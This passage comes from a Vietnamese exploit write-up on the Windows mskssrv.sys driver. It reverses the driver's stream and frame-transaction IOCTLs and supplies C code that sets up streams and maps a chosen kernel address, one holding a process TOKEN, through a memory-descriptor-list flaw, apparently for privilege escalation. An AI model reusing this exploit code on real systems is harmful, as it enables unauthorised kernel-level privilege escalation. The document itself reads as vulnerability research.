        (PFSContextRegInput)malloc(sizeof(FSContextRegInput));

    if (StreamContext == NULL) 
    {
        fprintf(stderr, "Failed to allocate memory for the stream context.\n");
        return FALSE;
    }

    memset(StreamContext, 0, sizeof(FSContextRegInput));

    StreamContext->offset0x0 = 0x5;
    StreamContext->CurrentProcessId = (ULONG64)GetCurrentProcessId();
    StreamContext->EventHandle = CreateEventW(NULL, FALSE, FALSE, NULL);
    StreamContext->offset0x18 = 0;
    StreamContext->offset0x20 = 0x20000;
    StreamContext->offset0x38 = 0x50;

    BOOL Result = SendToDriver(
        ContextHandle,
        IOCTL_INITIALIZE_GLOBAL_RENDEZVOUS,
        StreamContext,
        sizeof(FSContextRegInput),
        NULL,
        0
    );

    if (Result) 
    {
        // printf("[+] Successfully sent IOCTL_INITIALIZE_GLOBAL_RENDEZVOUS.\n");
    } 
    else 
    {
        printf("[-] Failed to send IOCTL_INITIALIZE_GLOBAL_RENDEZVOUS.\n");
        printf("[Error] GetLastError: %lu\n", GetLastError());
        free(StreamContext);
        return FALSE;
    }

    if (StreamContext->EventHandle) 
    {
        CloseHandle(StreamContext->EventHandle);
    }

    free(StreamContext);
    return TRUE;
}
```

Với script trên, kết quả ta mong muốn khi chạy trên Debugee là:


		

## Principle Of Frame Transaction

Với mỗi `Stream Object` sẽ luôn lưu trữ các thông tin về trạng thái, `Process Id`, `Event Handle` của tiến trình thực hiện thao tác, các giá trị `key` đặc trưng cho các giao dịch cũng như là số lượng frame.

Với phía Producer, là các nhà cung cấp frame như Camera,… thì các thao tác cần được tiến hành gồm tạo lập (`Initialize`) một đối tượng giao dịch `Stream Object` , sau đó là dùng `PublishTx` để tiến hành quy định số lượng frame cần giao dịch tại địa chỉ ảo được quy định và tạo lập danh sách gồm các đối tượng  Frame và lock vào trong RAM và lưu danh sách đó vào `Stream Object` . Đồng thời, `Stream Object` hiện tại cũng được thêm vào hàng đợi giao dịch `Stream Object List` của `GlobalRendezvousServer` .

Vói phía Consumer, là các nơi tiêu thụ các frame dữ liệu như các phần mềm Discord.exe, … thì các thao tác cần tiến hành gồm đăng kí sử dụng đối tượng giao dịch `RegisterStream` , cung cấp các giá trị `key` chuẩn xác để xác định chuẩn các Frame cần lấy, sau đó sử dụng `ConsumeTx` để tiến hành tham chiếu các Frame được lock trên RAM và đọc dữ liệu để sử dụng.

## Step 3: Frame Transaction Initialization

### Initialize Stream
---

Để thực hiện việc trao đổi các frame , ta cần thực hiện thiết lập một đối tượng Stream đóng vai trò là một đối tượng lưu các thông tin giao dịch đối với mỗi handle được dùng. 

Ta có hàm thực hiện việc khởi tạo Stream:

```c
typedef struct FsStreamRegInput{
    ULONG64 Flag;
    ULONG64 CurrentProcessId; // Key 0
    ULONG64 Key1;
    DWORD Key2;
    DWORD offset0x1c;
    ULONG offset0x20;
    ULONG offset0x24;
    ULONG64 EventHandle;
} FsStreamRegInput, *PFsStreamRegInput;
// ...
BOOL InitializeStream(HANDLE TargetHandle, PKey Key)
{
    // printf("[*] Initializing the stream object.\n");

    struct FsStreamRegInput *StreamInfo =
        (struct FsStreamRegInput *)malloc(sizeof(struct FsStreamRegInput));

    if (StreamInfo == NULL) 
    {
        fprintf(stderr, "Failed to allocate memory for the fake stream.\n");
        return FALSE;
    }

    memset(StreamInfo, 0, sizeof(struct FsStreamRegInput));
    StreamInfo->Flag  = 0x1;
    StreamInfo->CurrentProcessId = (ULONG64)GetCurrentProcessId();
    StreamInfo->Key1 = Key->Key1;
    StreamInfo->Key2 = Key->Key2;
    StreamInfo->offset0x1c = 0x74;
    StreamInfo->offset0x20 = 0x7A000;
    StreamInfo->offset0x24 = 0x0;
    StreamInfo->EventHandle = (ULONG64)CreateEventW(NULL, FALSE, FALSE, NULL);

    BOOL Result = SendToDriver(
        TargetHandle,
        IOCTL_INITIALIZE_STREAM,
        StreamInfo,
        sizeof(FsStreamRegInput),
        NULL,
        0
    );

    if (Result) 
    {
        // printf("[+] Successfully sent IOCTL_INITIALIZE_STREAM.\n");
    } 
    else 
    {
        fprintf(stderr, "[-] Failed to send IOCTL_INITIALIZE_STREAM.\n");
        fprintf(stderr, "[Error] GetLastError: %lu\n", GetLastError());
        free(StreamInfo);
        return FALSE;
    }

    free(StreamInfo);
    return TRUE;
}
```

### Reversing Initialization Stream
---

Xuất phát từ nhánh code thuộc `SrvDispatchIoControl` :
    
  ```c
  NTSTATUS __fastcall SrvDispatchIoControl(_DRIVER_OBJECT *Current_Driver, IRP *cur_irp)
  {
    if ( !v6 )
      {
        CurRendezvousObject = 0;
        KeWaitForSingleObject(&Mutex, Executive, 0, 0, 0);
        Get_Status = FSGetRendezvousServer(&CurRendezvousObject);
        if ( Get_Status >= 0 )
        {
          Status = FSRendezvousServer::InitializeStream(CurRendezvousObject, cur_irp);
          goto LABEL_44;
        }
        goto LABEL_45;
      }
  }
  ```
    

Tại `FSRendezvousServer::InitializeStream` , nó sẽ thực hiện kiểm tra:
    
  ```c
  if ( CurrentStackLocation->Parameters.Read.ByteOffset.LowPart != 0x2F0404
      || CurrentStackLocation->FileObject->FsContext2 )
    {
      return_status = STATUS_INVALID_DEVICE_REQUEST;
    }
    else
    {
      SystemBuffer = (unk_struct *)cur_irp->AssociatedIrp.MasterIrp;
      if ( !SystemBuffer
        || CurrentStackLocation->Parameters.Create.Options < 0x30
        || !SystemBuffer->offset0x8
        || (SystemBuffer->offset0x0 & 1) == 0
        || SystemBuffer->offset0x1c - 4 > 0x74
        || SystemBuffer->offset0x20 - 0x4000 > 0x7C000
        || !SystemBuffer->offset0x10
        || !SystemBuffer->offset0x28 )
      {
        return STATUS_INVALID_PARAMETER;
      }
  // ...
  ```   

Nó thực hiện kiểm tra IOCTL có là `0x2F0404` và kiểm tra `FsContext2` có là NULL không. Sau bước `InitializeGlobalContextRendezvous` thì handle với `FILE_OBJECT->FsContext2 = &FsContextRegObject` nên việc khởi tạo một Stream là không thể. Vì vậy đến bước này, ta cần thiết phải lấy thêm một handle mới đến `mskssrv.sys` .

Kế tiếp vào nhánh else{}, nó thực hiến trích xuất `SystemBuffer` chứa fake struct ta truyền xuống. Dựa vào đó, ta có cấu trúc của fake struct như sau:

```c
typedef struct FsStreamRegInput{
    ULONG64 Flag;
    ULONG64 CurrentProcessId; // Key 0
    ULONG64 Key1;
    DWORD Key2;
    DWORD offset0x1c;
    ULONG offset0x20;
    ULONG offset0x24;
    ULONG64 EventHandle;
} FsStreamRegInput, *PFsStreamRegInput;
```

Và ta sẽ thiết lập tham số như sau:

```c
StreamInfo->Flag  = 0x1;
StreamInfo->CurrentProcessId = (ULONG64)GetCurrentProcessId();
StreamInfo->Key1 = 0x10;
StreamInfo->Key2 = 0x100;
StreamInfo->offset0x1c = 0x74;
StreamInfo->offset0x20 = 0x7A000;
StreamInfo->offset0x24 = 0x0;
StreamInfo->EventHandle = (ULONG64)CreateEventW(NULL, FALSE, FALSE, NULL);
```

Lí do ta cần set `offset0x28` là một handle Event là để thõa mãn tham số của hàm `FSFrameMdlList::InitializeMdlList` trong `FSStreamReg::Initialize` .
    
  ```c
  NTSTATUS __fastcall FSStreamReg::Initialize(
          FSStreamReg *this,
          struct FSRegObjectList *reg_obj_list,
          unk_struct *SystemBuffer,
          KPROCESSOR_MODE rq_mode)
  {
    NTSTATUS v4; // ebx
    void *offset0x28; // rdx
    NTSTATUS inited; // eax
    struct _EPROCESS *CurrentProcess; // rax
  
    v4 = 0;
    if ( !SystemBuffer )
      return STATUS_INVALID_PARAMETER;
    if ( !SystemBuffer->offset0x8 )
      return STATUS_INVALID_PARAMETER;
    if ( (SystemBuffer->offset0x0 & 1) == 0 )
      return STATUS_INVALID_PARAMETER;
    if ( SystemBuffer->offset0x1c - 4 > 0x74 )
      return STATUS_INVALID_PARAMETER;
    if ( SystemBuffer->offset0x20 - 0x4000 > 0x7C000 )
      return STATUS_INVALID_PARAMETER;
    if ( !SystemBuffer->offset0x10 )
      return STATUS_INVALID_PARAMETER;
    offset0x28 = (void *)SystemBuffer->offset0x28;
    if ( !offset0x28 )
      return STATUS_INVALID_PARAMETER;
    inited = FSFrameMdlList::InitializeMdlList((FSStreamReg *)((char *)this + 304), offset0x28, rq_mode);
    if ( inited < 0 )
      return inited;
  // ...
  }
  
  __int64 __fastcall FSFrameMdlList::InitializeMdlList(FSFrameMdlList *this, void *a2, KPROCESSOR_MODE a3)
  {
    unsigned int v3; // ebx
    NTSTATUS v5; // eax
    PVOID v6; // rcx
    void *v7; // rcx
    PVOID v9; // [rsp+58h] [rbp+20h] BYREF
  
    v3 = 0;
    v9 = 0;
    v5 = ObReferenceObjectByHandle(a2, 2u, (POBJECT_TYPE)ExEventObjectType, a3, &v9, 0);
    if ( v5 >= 0 )
    {
      v7 = (void *)*((_QWORD *)this + 13);
      if ( v7 )
        ObfDereferenceObject(v7);
      *((_QWORD *)this + 13) = v9;
      v6 = 0;
      v9 = 0;
    }
    else
    {
      v6 = v9;
      v3 = v5;
    }
    if ( v6 )
      ObfDereferenceObject(v6);
    return v3;
  }
  ```
    

Khi hàm gọi đến `ObReferenceObjectByHandle` thì tham số truyền vào phải là một Event handle hợp lệ nếu không, mã lỗi `0xC0000008 STATUS_INVALID_HANDLE` sẽ được trả về.

Sau khi bước này được thực thi xong, `FsContext2` của handle hiện tại sẽ là địa chỉ của `FsStreamRegObject` vừa được khởi tạo.

### PublishTx
---

Ta có hàm thực hiện việc khởi tạo các thông tin giao dịch cho Stream Object:

```c
typedef struct FrameStruct
{
    ULONG64 offset0x0;
    ULONG64 offset0x8;
    ULONG offset0x10;
    ULONG offset0x14;
    ULONG64 offset0x18;
    ULONG64 AddressPtr2;
    ULONG64 offset0x28;
    ULONG offset0x30;
    ULONG Size2;
    ULONG64 AddressPtr1;
    ULONG offset0x40;
    ULONG Size1;
    ULONG64 Mdl_Type;
    ULONG64 offset0x50;
    ULONG64 offset0x58;
    ULONG64 offset0x60;
    ULONG64 offset0x68;
    ULONG64 offset0x70;
    ULONG64 offset0x78;
    ULONG64 offset0x80;
}FrameStruct , *PFrameStruct;

typedef struct TxInfo
{
  ULONG64 offset0x0;
  ULONG64 offset0x8;
  ULONG64 offset0x10;
  ULONG64 offset0x18;
  DWORD FrameCount;
  DWORD FilledFrameCount;
  FrameStruct FrameEntries[300];
} TxInfo, *PTxInfo;
// ...
BOOL PublishTx(HANDLE TargetHandle, PVOID TargetAddress)
{
    // printf("[*] Publishing TX mapping for %p.\n",
    //     TargetAddress);

    if (TargetHandle == NULL || TargetHandle == INVALID_HANDLE_VALUE ||
        TargetAddress == NULL)
    {
        printf("[-] Invalid PublishTx arguments.\n");
        return FALSE;
    }

    struct TxInfo *Tx = (struct TxInfo *)calloc(1, sizeof(struct TxInfo));
    if (!Tx)
    {
        printf("[-] Failed to allocate TxInfo.\n");
        return FALSE;
    }

    Tx->FrameCount = 300;
    Tx->FilledFrameCount = 1;

    Tx->FrameEntries[0].AddressPtr2 = (ULONG64)TargetAddress;
    Tx->FrameEntries[0].Size2 = 0x100;

    Tx->FrameEntries[0].AddressPtr1 = (ULONG64)TargetAddress;
    Tx->FrameEntries[0].Size1 = 0x100;

    Tx->FrameEntries[0].Mdl_Type = 0x1000000000000004ULL;

    BOOL Check = SendToDriver(
        TargetHandle,
        IOCTL_PUBLISH_STREAM,
        Tx,
        sizeof(*Tx),
        NULL,
        0
    );

    if (!Check)
    {
        fprintf(stderr, "[-] IOCTL_PUBLISH_STREAM failed: %lu\n", GetLastError());
    }
    else
    {
        // fprintf(stderr, "[+] IOCTL_PUBLISH_STREAM ok.\n");
    }

    free(Tx);
    return Check;
}
```

### Reversing PublishTx
---

Với bước `InitializeStream` , handle hiện tại của ta đã có `FILE_OBJECT->FsContext2 = &FsStreamRegObject` nên ta đã có thể trực tiếp sử dụng `PublishTx` để cấp phát một struct `MDL` và map địa chỉ chứa `TOKEN` vào.

Xuất phát từ `FSRendezvousServer::PublishTx`:
    
  ```c
  NTSTATUS __fastcall FSRendezvousServer::PublishTx(_FSStreamRegInfo *this, struct _IRP *cur_irp)
  {
    struct _IO_STACK_LOCATION *CurrentStackLocation; // rbp
    NTSTATUS return_status; // ebx
    struct PublishInfo *SystemBuffer; // r14
    unsigned __int64 SizeofSystemBuffer; // r8
    unsigned int frame_count; // ecx
    const struct FSRegObject *FsContext2; // rdi
    char Object; // bl
    struct FSQueueStats *cur_system_buffer; // rdx
  
    CurrentStackLocation = cur_irp->Tail.Overlay.CurrentStackLocation;
    if ( !CurrentStackLocation->FileObject->FsContext2 )
      return STATUS_INVALID_DEVICE_REQUEST;
    SystemBuffer = cur_irp->AssociatedIrp.MasterIrp;
    if ( !SystemBuffer )
      return STATUS_INVALID_PARAMETER;
    SizeofSystemBuffer = CurrentStackLocation->Parameters.Create.Options;
    if ( SizeofSystemBuffer < 0xB0 )
      return STATUS_INVALID_PARAMETER;
    frame_count = SystemBuffer->FrameCount;
    if ( frame_count - 1 > 0x12B
      || SystemBuffer->FilledFrameCount > frame_count
      || SizeofSystemBuffer < 136 * (frame_count - 1) + 176 )
    {
      return STATUS_INVALID_PARAMETER;
    }
    FSRendezvousServer::Lock(this);
    FsContext2 = CurrentStackLocation->FileObject->FsContext2;
    Object = FSRendezvousServer::FindObject(this, FsContext2);
    KeReleaseMutex(&this->offset0x8, 0);
    if ( !Object )
      return STATUS_INVALID_DEVICE_REQUEST;
    (*(*FsContext2 + 40LL))(FsContext2);
    return_status = FSStreamReg::PublishTx(FsContext2, SystemBuffer);
    if ( return_status >= 0 && CurrentStackLocation->Parameters.Read.Length >= 0x18 )
    {
      cur_system_buffer = cur_irp->AssociatedIrp.MasterIrp;
      if ( cur_system_buffer )
        FSStreamReg::GetStats(FsContext2, cur_system_buffer);
      cur_irp->IoStatus.Information = 24;
    }
    (*(*FsContext2 + 48LL))(FsContext2);
    return return_status;
  }
  ```
    

Ta cần vượt qua các kiểm tra về `FrameCount` và size của struct được truyền xuống:
    
  ```c
  SizeofSystemBuffer = CurrentStackLocation->Parameters.Create.Options;
  if ( SizeofSystemBuffer < 0xB0 )
    return STATUS_INVALID_PARAMETER;
  frame_count = SystemBuffer->FrameCount;
  if ( frame_count - 1 > 0x12B
    || SystemBuffer->FilledFrameCount > frame_count
    || SizeofSystemBuffer < 136 * (frame_count - 1) + 176 )
  {
    return STATUS_INVALID_PARAMETER;
  }
  ```
    

Size của struct không được bé hơn `0xB0` và phải lớn hơn hoặc bằng `0xB0 + sizeof((FrameStruct * FrameCount -1))` với mỗi `FrameStruct` có size là `0x88` . Đồng thời cần đảm bảo lượng `FrameCount` không vượt quá `300` và lượng Frame đã được Fill thực tế không lớn hơn `FrameCount` hiện tại.

Tiếp đến `FSStreamReg::PublishTx` :
    
  ```c
  NTSTATUS __fastcall FSStreamReg::PublishTx(FSStreamReg *this, struct PublishInfo *SystemBuffer)
  {
    NTSTATUS v4; // esi
    unsigned __int8 v5; // bl
    NTSTATUS recycle_check_status; // eax
    enum _POOL_TYPE offset0x68_high; // edx
    DWORD i; // r14d
    __int64 OffsetCurFrameStruct; // r15
    FSFrameMdl *NewFrameMdl; // rax
    FSFrameMdl *CurFrameMdl; // rbx
    int Mdl; // eax
    struct _KEVENT *Event_struct; // rcx
  
    v4 = 0;
    v5 = 0;
    recycle_check_status = FSStreamReg::CheckRecycle(this, SystemBuffer);
    if ( recycle_check_status < 0 )
      return recycle_check_status;
    for ( i = 0; i < SystemBuffer->FilledFrameCount; ++i )
    {
      OffsetCurFrameStruct = i;
      if ( SystemBuffer->FrameStructs[OffsetCurFrameStruct].Mdl_Type )
      {
        NewFrameMdl = operator new(0xD0u, offset0x68_high, 'sldM');
        CurFrameMdl = NewFrameMdl;
        if ( NewFrameMdl )
        {
          NewFrameMdl->offset0x10 = 0;
          memset(&NewFrameMdl->offset0x18, 0, 0xB8u);
        }
        else
        {
          CurFrameMdl = 0;
        }
        if ( !CurFrameMdl )
          return STATUS_INSUFFICIENT_RESOURCES;
        Mdl = FSFrameMdl::AllocateMdl(CurFrameMdl, &SystemBuffer->FrameStructs[OffsetCurFrameStruct]);
        if ( Mdl < 0 )
        {
          v4 = Mdl;
          goto LABEL_21;
        }
        FSFrameMdlList::InsertTail(&this->MdlList, CurFrameMdl);
        offset0x68_high = HIDWORD(CurFrameMdl->offset0x68);
        if ( offset0x68_high == NonPagedPool
          || offset0x68_high == DontUseThisType && SLODWORD(CurFrameMdl->offset0x70) < 0 )
        {
          ++this->offset0x1ac;
        }
        v5 = 1;
      }
    }
    if ( s_fsTraceEnable )
      DbgPrintEx(
        0x1Du,
        3u,
        "PublishTx(%d) stats[txsize:%I64d,rxsize:%I64d,txcount:%d,rxcount:%d]\n",
        v5,
        this->offset0x128,
        this->offset0x1a0,
        LODWORD(this->offset0x118),
        LODWORD(this->offset0x190));
    if ( v5 )
    {
      Event_struct = this->offset0x120;
      if ( Event_struct )
      {
        KeSetEvent(Event_struct, 0, 0);
        CurFrameMdl = 0;
  LABEL_21:
        if ( CurFrameMdl )
        {
          FSFrameMdl::~FSFrameMdl(CurFrameMdl);
          operator delete(CurFrameMdl);
        }
      }
    }
    return v4;
  }
  ```


Hàm thực hiện khởi tạo các `FrameMDLObject` ứng với số lượng được quy định khi khởi tạo `Stream Object` và với mỗi đối tượng, hàm sẽ thực hiện gọi đến hàm con `FSFrameMdl::AllocateMdl` để khởi tạo `MDL` map và lock các vùng bộ nhớ vật lý và ảo và RAM:
    
  ```c
  NTSTATUS __fastcall FSFrameMdl::AllocateMdl(unknown *this, const struct FSFrameMdl *SystemBuffer)
  {
    __int128 v2; // xmm0
    NTSTATUS return_status; // ebx
    int Alloc_Mdl_mode; // eax
    ACCESS_MASK v7; // esi
    NTSTATUS AllocStatus2; // eax
    NTSTATUS AllocStatus1; // eax
    PVOID Object; // [rsp+60h] [rbp+8h] BYREF
    struct _OBJECT_HANDLE_INFORMATION HandleInformation; // [rsp+68h] [rbp+10h] BYREF
  
    v2 = *&SystemBuffer->offset0x0;
    return_status = 0;
    HandleInformation = 0;
    Object = 0;
    *&this->offset0x18 = v2;
    *&this->offset0x28 = *&SystemBuffer->offset0x10;
    *&this->offset0x38 = *&SystemBuffer->AddressPtr2;
    *&this->offset0x48 = *&SystemBuffer->offset0x30;
    *&this->offset0x58 = *&SystemBuffer->offset0x40;
    *&this->offset0x68 = *&SystemBuffer->offset0x50;
    *&this->offset0x78 = *&SystemBuffer->offset0x60;
    *&this->offset0x88 = *&SystemBuffer->offset0x70;
    this->offset0x98 = SystemBuffer->offset0x80;
    Alloc_Mdl_mode = SystemBuffer->Mdl_Type;
    if ( !Alloc_Mdl_mode )
    {
      if ( SystemBuffer->AddressPtr2 || SystemBuffer->offset0x30 )
        return_status = STATUS_INVALID_PARAMETER;
      goto LABEL_17;
    }
    if ( Alloc_Mdl_mode == 1 )
    {
  LABEL_17:
      AllocStatus1 = FsAllocAndLockMdl(SystemBuffer->AddressPtr1, SystemBuffer->Size1, &this->offset0xb0);
      if ( AllocStatus1 < 0 )
        return_status = AllocStatus1;
      goto LABEL_19;
    }
    if ( Alloc_Mdl_mode == 4 || Alloc_Mdl_mode == 8 )
    {
      AllocStatus2 = FsAllocAndLockMdl(SystemBuffer->AddressPtr2, SystemBuffer->Size2, &this->offset0xa0);
  LABEL_12:
      if ( AllocStatus2 < 0 )
        goto LABEL_13;
      goto LABEL_17;
    }
    if ( Alloc_Mdl_mode != 16 )
    {
      if ( Alloc_Mdl_mode != 32 && Alloc_Mdl_mode != 64 )
        return STATUS_INVALID_PARAMETER;
      goto LABEL_17;
    }
    v7 = ((this->offset0x60 & 0x1000000000000000LL) != 0) | 0x20000;
    AllocStatus2 = ObReferenceObjectByHandle(SystemBuffer->AddressPtr2, v7, 0, 1, &Object, &HandleInformation);
    if ( AllocStatus2 >= 0 )
    {
      AllocStatus2 = ObOpenObjectByPointer(Object, 2u, 0, v7, 0, 0, &this[1].offset0x8);
      goto LABEL_12;
    }
  LABEL_13:
    return_status = AllocStatus2;
  LABEL_19:
    if ( Object )
      ObfDereferenceObject(Object);
    return return_status;
  }
  ```


Hàm thực hiện khởi tạo sơ bộ các thông số cho đối tượng `FrameMDLObject` và sau đó dựa vào `MDLType` được truyền xuống để quyết định cách map và lock các vùng nhớ và sau đó gọi đến `FsAllocAndLockMdl` để thực hiện khởi tạo `MDL` và map vào địa chỉ ảo chứa các được truyền xuống, đồng thời lock nó vào trong RAM.

  ```c
  NTSTATUS __fastcall FsAllocAndLockMdl(void *addr_ptr, ULONG length, struct _MDL **output)
  {
    NTSTATUS status; // edi
    struct _MDL *Mdl; // rax
    struct _MDL *tmp_mdl; // rbx
  
    status = 0;
    if ( !addr_ptr || !length || !output )
      return 0xC000000D;                          // STATUS_INVALID_PARAMETER
    Mdl = IoAllocateMdl(addr_ptr, length, 0, 0, 0);
    tmp_mdl = Mdl;
    if ( !Mdl )
      return 0xC000009A;                          // STATUS_INSUFFICIENT_RESOURCES
    MmProbeAndLockPages(Mdl, 0, IoWriteAccess);   // MmProbeAndLockPages(Mdl, KernelMode, IoWriteAccess);
    *output = tmp_mdl;
    return status;
  }
  ```
    

Với quá trình reverse, ta có một struct `TxInfo` để chứa các thông tin giao dịch như sau:

```c
typedef struct TxInfo
{
  ULONG64 offset0x0;
  ULONG64 offset0x8;
  ULONG64 offset0x10;
  ULONG64 offset0x18;
  DWORD FrameCount;
  DWORD FilledFrameCount;
  FrameStruct FrameEntries[300];
} TxInfo, *PTxInfo;
```

Với một `FrameStruct` có cấu trúc như sau:

```c
typedef struct FrameStruct
{
    ULONG64 offset0x0;
    ULONG64 offset0x8;
    ULONG offset0x10;
    ULONG offset0x14;
    ULONG64 offset0x18;
    ULONG64 AddressPtr2;
    ULONG64 offset0x28;
    ULONG offset0x30;
    ULONG Size2;
    ULONG64 AddressPtr1;
    ULONG offset0x40;
    ULONG Size1;
    ULONG64 Mdl_Type;
    ULONG64 offset0x50;
    ULONG64 offset0x58;
    ULONG64 offset0x60;
    ULONG64 offset0x68;
    ULONG64 offset0x70;
    ULONG64 offset0x78;
    ULONG64 offset0x80;
}FrameStruct , *PFrameStruct;
```

Phân tích nhánh các cách map và lock các Frame dữ liệu, ta có thể nhận thấy rằng:

- Với `Mdl_Type == 0` là loại MDL đơn, chỉ map/lock frame từ `AddressPtr1` .
- Với `Mdl_Type == 1` cũng là loại chỉ cấp phát MDL cho `AddressPtr1/Size1`, nhưng không enforce `AddressPtr2 == NULL`.
- Với `Mdl_Type == 4` và `Mdl_Type == 8` là mode hai-buffer, lock cả `AddressPtr2` và `AddressPtr1`.
- Với `Mdl_Type == 16` dùng `AddressPtr2` như object handle, không lock `AddressPtr2` bằng MDL. Sau khi reference/open object thành công, hàm chỉ lock MDL cho `AddressPtr1`.
- Với `Mdl_Type == 32` và `64` là mode hợp lệ nhưng chỉ map/lock buffer chính `AddressPtr1`.

Và ta sẽ sử dụng switch case `Mdl_Type = 4` để khai thác.

Khi đó, ta cần gửi xuống `AddressPtr1` và `AddressPtr2` là cùng một địa chỉ `TargetVA` là nơi ta muốn map và lock vào RAM với `Size1` và `Size2` là kích thước bất kì (nên là < 0x1000) vì có thể lượng byte được đọc vượt ra ngoài các Page khác gây Page Access Fault.

Sau bước này, các thông tin giao dịch Frame đã có đầy đủ và đã sẵn sàng để trao đổi với phía Consumer.
		

## Step 4: Frame Transaction Complete

### Register Stream
---

Để xác định `Stream Object` dùng cho giao dịch, ta cần một bước truyền xuống các giá trị `key` :

```c
typedef struct FsStreamRegisterInput
{
    ULONG64 Flag;
    ULONG64 CurrentProcessId;
    ULONG64 Key1;
    ULONG Key2;
    ULONG offset0x1c;
    ULONG64 offset0x20;
    HANDLE EventHandle;
    ULONG64 offset0x30;
    ULONG64 offset0x38;
    ULONG64 offset0x40;
    ULONG64 offset0x48;
    ULONG64 offset0x50;
    ULONG64 offset0x58;
    ULONG64 offset0x60;
    ULONG64 offset0x68;
    ULONG64 offset0x70;
    ULONG64 offset0x78;
} FsStreamRegisterInput, *PFsStreamRegisterInput;
// ...
BOOL RegisterStream(HANDLE TargetHandle, PKey Key)
{
    // printf("[*] Registering the stream.\n");

    PFsStreamRegisterInput RegisterInfo = (PFsStreamRegisterInput)malloc(sizeof(FsStreamRegisterInput));

    if (RegisterInfo == NULL) 
    {
        fprintf(stderr, "Failed to allocate memory for the register info.\n");
        return FALSE;
    }

    memset(RegisterInfo, 0, sizeof(FsStreamRegisterInput));
    RegisterInfo->Flag = 0x2;
    RegisterInfo->CurrentProcessId = (ULONG64)GetCurrentProcessId();
    RegisterInfo->Key1 = Key->Key1;
    RegisterInfo->Key2 = Key->Key2;
    RegisterInfo->EventHandle = CreateEventW(NULL, FALSE, FALSE, NULL);
    
    BOOL Result = SendToDriver(
        TargetHandle,
        IOCTL_REGISTER_STREAM,
        RegisterInfo,
        sizeof(FsStreamRegisterInput),
        NULL,
        0
    );

    if (Result)
    {
        // printf("[+] Successfully sent IOCTL_REGISTER_STREAM for registering.\n");
    }
    else
    {
        fprintf(stderr, "[-] Failed to send IOCTL_REGISTER_STREAM for registering.\n");
        fprintf(stderr, "[Error] GetLastError: %lu\n", GetLastError());
        free(RegisterInfo);
        return FALSE;
    }

    free(RegisterInfo);
    return TRUE;
}
```

### Reversing Register Stream
---

Từ hàm `FSRendezvousServer::RegisterStream` :
    
  ```c
  NTSTATUS __fastcall FSRendezvousServer::RegisterStream(FSGlobalRendezvousServer *this, struct _IRP *CurIRP)
  {
    struct _IO_STACK_LOCATION *CurrentStackLocation; // r14
    NTSTATUS return_status; // ebx
    FsStreamRegisterInput *SystemBuffer; // rsi
    LIST_ENTRY *HeadStreamListAddr; // r10
    LIST_ENTRY *StreamListHead; // rax
    LIST_ENTRY *CurLink; // rdi
    FSStreamReg *StreamObj; // rdi
    NTSTATUS register_status; // eax
  
    CurrentStackLocation = CurIRP->Tail.Overlay.CurrentStackLocation;
    return_status = 0;
    if ( CurrentStackLocation->Parameters.Read.ByteOffset.LowPart != 0x2F0420
      || CurrentStackLocation->FileObject->FsContext2 )
    {
      return STATUS_INVALID_DEVICE_REQUEST;
    }
    SystemBuffer = CurIRP->AssociatedIrp.MasterIrp;
    if ( !SystemBuffer
      || CurrentStackLocation->Parameters.Create.Options < 0x30
      || SystemBuffer->CurrentProcessId != PsGetCurrentProcessId()
      || (SystemBuffer->Flag & 2) == 0
      || !SystemBuffer->Key1
      || !SystemBuffer->EventHandle )
    {
      return STATUS_INVALID_PARAMETER;
    }
    FSRendezvousServer::Lock(this);
    HeadStreamListAddr = &this->StreamListHead;
    StreamListHead = this->StreamListHead;
    if ( StreamListHead != &this->StreamListHead )
      this->offset0x60 = StreamListHead;
    while ( 1 )
    {
      CurLink = this->offset0x60;
      if ( !CurLink || HeadStreamListAddr->Flink == HeadStreamListAddr || CurLink == HeadStreamListAddr )
      {
        return_status = STATUS_INVALID_DEVICE_REQUEST;
        goto LABEL_23;
      }
      StreamObj = &CurLink[-1].Blink;
      if ( StreamObj )
      {
        if ( StreamObj->Key0 == SystemBuffer->CurrentProcessId
          && StreamObj->Key1 == SystemBuffer->Key1
          && StreamObj->Key2 == SystemBuffer->Key2 )
        {
          break;
        }
      }
      FSRegObjectList::MoveNext(&this->StreamList);
    }
    register_status = FSStreamReg::Register(StreamObj, SystemBuffer, CurIRP->RequestorMode);
    if ( register_status >= 0 )
    {
      CurrentStackLocation->FileObject->FsContext2 = StreamObj;
      _InterlockedIncrement(&StreamObj->offset0x18);
    }
    else
    {
      return_status = register_status;
    }
  LABEL_23:
    KeReleaseMutex(&this->offset0x8, 0);
    return return_status;
  }
  ```
    

Hàm thực hiện kiểm tra tính hợp lệ của các tham số:
    
  ```c
  if ( !SystemBuffer
      || CurrentStackLocation->Parameters.Create.Options < 0x30
      || SystemBuffer->CurrentProcessId != PsGetCurrentProcessId()
      || (SystemBuffer->Flag & 2) == 0
      || !SystemBuffer->Key1
      || !SystemBuffer->EventHandle )
    {
      return STATUS_INVALID_PARAMETER;
    }
  ```
    

Sau đó, hàm thực hiện duyệt qua danh sách các `SteamObject` và tiến hành so sánh các chỉ số như `ProcessId` , `Key1` , `Key2` do ta gửi xuống với các trường tương ứng trong các đối tượng để xác định `StreamObject` cần được đăng kí.
    
  ```c
    StreamObj = &CurLink[-1].Blink;
      if ( StreamObj )
      {
        if ( StreamObj->Key0 == SystemBuffer->CurrentProcessId
          && StreamObj->Key1 == SystemBuffer->Key1
          && StreamObj->Key2 == SystemBuffer->Key2 )
        {
          break;
        }
      }
      FSRegObjectList::MoveNext(&this->StreamList);
      }
    register_status = FSStreamReg::Register(StreamObj, SystemBuffer, CurIRP->RequestorMode);
  ```
    
  
Sau đó hàm con `FSStreamReg::Register` được gọi ddeeer hoàn thiện thiết lập các tham số, thiết lập `FsContext2` thành `StreamObject` hiện tại và trả về status thành công.

### ConsumeTx
---

```c
typedef struct FrameStruct
{
    ULONG64 offset0x0;
    ULONG64 offset0x8;
    ULONG offset0x10;
    ULONG offset0x14;
    ULONG64 offset0x18;
    ULONG64 AddressPtr2;
    ULONG64 offset0x28;
    ULONG offset0x30;
    ULONG Size2;
    ULONG64 AddressPtr1;
    ULONG offset0x40;
    ULONG Size1;
    ULONG64 Mdl_Type;
    ULONG64 offset0x50;
    ULONG64 offset0x58;
    ULONG64 offset0x60;
    ULONG64 offset0x68;
    ULONG64 offset0x70;
    ULONG64 offset0x78;
    ULONG64 offset0x80;
}FrameStruct , *PFrameStruct;

typedef struct TxInfo
{
  ULONG64 offset0x0;
  ULONG64 offset0x8;
  ULONG64 offset0x10;
  ULONG64 offset0x18;
  DWORD FrameCount;
  DWORD FilledFrameCount;
  FrameStruct FrameEntries[300];
} TxInfo, *PTxInfo;
// ...
